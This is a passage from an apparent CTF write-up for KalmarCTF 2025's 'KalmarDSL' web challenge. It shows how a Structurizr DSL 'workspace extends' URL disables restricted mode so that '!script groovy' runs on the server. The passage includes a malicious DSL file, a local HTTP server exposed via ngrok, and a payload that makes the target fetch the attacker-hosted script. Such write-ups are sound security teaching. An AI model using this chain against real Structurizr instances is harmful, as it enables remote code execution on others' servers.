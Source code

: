 Basically, the parser will set the restricted mode to `false` when the following DSL code is provided:

```
workspace extends http://example.com/ {
    
}
```

According to the [Structurizr DSL workspace extension documentation](https://docs.structurizr.com/dsl/cookbook/workspace-extension/), it allows us to extend an existing workspace, enabling you to reuse common elements/relationships across multiple workspaces.

So, if the workspace is NOT in restricted mode, we can now use the `!script` tag to execute arbitrary server-side code, right?!

In the [`!script` tag's inline script documentation](https://docs.structurizr.com/dsl/scripts#inline-scripts), we can use the `!script` keyword followed by the language we’d like to use (`groovy`, `kotlin`, `ruby`, or `javascript`). Let's try `groovy` first!

First, we need to host our own malicious DSL code:

`exploit.dsl`:

```
workspace {
    !script groovy {
        value = "anything"
    }
}
```

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:32:52(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:33:20(HKT)]
└> ngrok tcp 8000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:17964 -> localhost:8000                               
[...]
```

Then, we can submit (Render) the following DSL payload:

```
workspace extends http://0.tcp.ap.ngrok.io:17964/exploit.dsl {
    
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250313163426.png)
